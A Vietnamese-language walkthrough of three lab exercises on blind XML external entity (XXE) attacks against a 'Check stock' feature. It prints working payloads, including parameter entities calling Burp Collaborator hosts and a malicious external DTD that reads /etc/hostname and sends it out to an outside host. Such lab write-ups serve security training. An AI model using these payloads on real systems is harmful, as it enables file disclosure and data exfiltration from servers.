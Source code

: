 # Blind XXE with out-of-band interaction
## Target Goal
This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
## Analysis
Đối với mục tiêu của bài lab, ta sẽ tấn công vào tính năng `Check stock`

![image](https://github.com/user-attachments/assets/c4e4879e-fd4a-48dd-be7b-a0026156528b)

Sử dụng Burp để xem nội dung gói tin 

![image](https://github.com/user-attachments/assets/c959594f-458a-4565-86b6-94f133f2d92d)

Ta sẽ tiến hành inject payload sâu vào value `<productId>`, đồng thời sử dụng `Burp Collab` để hứng được gói tin được gửi ra ngoài
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://wbbon1ycp405g804xc71lztj6ac10rog.oastify.com"> ]>
```
![image](https://github.com/user-attachments/assets/5ed72244-8255-4219-ba5f-f11c1e83683f)

Quay lại tab `Collaborator` sẽ hứng được request và hoàn thành bài lab

![image](https://github.com/user-attachments/assets/c1009cc0-717c-4914-af65-d88523ad4f92)

## Flag
![image](https://github.com/user-attachments/assets/0a09e66c-350e-49ca-9e1c-745458d6ba93)

# Blind XXE with out-of-band interaction via XML parameter entities
## Target Goal
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
## Analysis
Đối với mục tiêu của bài lab, ta sẽ tấn công vào tính năng `Check stock`

![image](https://github.com/user-attachments/assets/dc798007-a016-4abd-874e-d739136d33b3)

Sử dụng Burp để xem nội dung gói tin 

![image](https://github.com/user-attachments/assets/59a8f0d5-2224-40ac-934b-93ef1b7c47b3)

Ta sẽ tiến hành inject payload sâu vào value `<productId>`, đồng thời sử dụng `Burp Collab` để hứng được gói tin được gửi ra ngoài. Theo như Response, quả thực khi trỏ tới XML Entity ta đã bị trang web chặn lại
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://wbbon1ycp405g804xc71lztj6ac10rog.oastify.com"> ]>
```
![image](https://github.com/user-attachments/assets/2bbe2db7-ed8d-4588-b20c-55764e996aae)

Để thực hiện **Out-Of-Band Interaction** trong trường hợp này, mình sẽ phải sửa `DOCTYPE` để không chỉ định nghĩa `Entity` có thể trực tiếp truy vấn tới nó luôn mà không thông qua productID.  Do đó thay vì sử dụng XML entity, ta sẽ định nghĩa 1 XML parameter Entity với payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://wbbon1ycp405g804xc71lztj6ac10rog.oastify.com"> %xxe; ]>
```

![image](https://github.com/user-attachments/assets/dda52fa7-9bc7-4425-b03f-6afd9ce6d28f)

Dù trả về `XML parsing error` nhưng trong BurpCollab đã xuất hiện kết nối DNS và HTTP tức là hứng được request và hoàn thành bài lab

![image](https://github.com/user-attachments/assets/6bf678ed-2aad-4984-b182-9cbdaa530943)

## Flag
![image](https://github.com/user-attachments/assets/f8cab389-2f90-45e5-b627-a7f3a416034a)

# Exploiting blind XXE to exfiltrate data using a malicious external DTD
## Target Goal
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.
## Analysis
Đối với mục tiêu của bài lab, ta sẽ tấn công vào tính năng `Check stock`

![image](https://github.com/user-attachments/assets/2ebc71f1-78fb-4d7e-9648-16e224ac4f6c)

Sử dụng Burp để xem nội dung gói tin 

![image](https://github.com/user-attachments/assets/1fe49bc7-cba2-47b1-80bc-5d2e9e8f6da1)

Đầu tiên ta xác nhận có kết nối tới BurpCollab với payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://wbbon1ycp405g804xc71lztj6ac10rog.oastify.com"> %xxe; ]>
```

![image](https://github.com/user-attachments/assets/55272b78-693f-4a4e-8bba-c8cecd60a183)

Tiếp theo truy cập vào `Exploit Server` được bài lab cung cấp và paste payload này vào Body. `Store` lại

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://uus1buupthb8nyod33fcs5wpogu7ix6m.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

![image](https://github.com/user-attachments/assets/fa69d86d-61cd-464d-9bf5-5f5fdb3c8971)

Copy đường dẫn tới file. Sau đó kết hợp với XML Paremeter phía trước để tạo ra payload hoàn chỉnh:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ab70010039193fb80c166ec011700db.exploit-server.net/exploit.dtd"> %xxe; ]>
```

Quay lại Collaborator lấy được code và hoàn thành bài lab

![image](https://github.com/user-attachments/assets/c609ebe9-d6bc-435a-9243-10527bcb7e75)

## Flag
![image](https://github.com/user-attachments/assets/abc1dd1d-400c-4e31-9ef0-93a374758f1a)








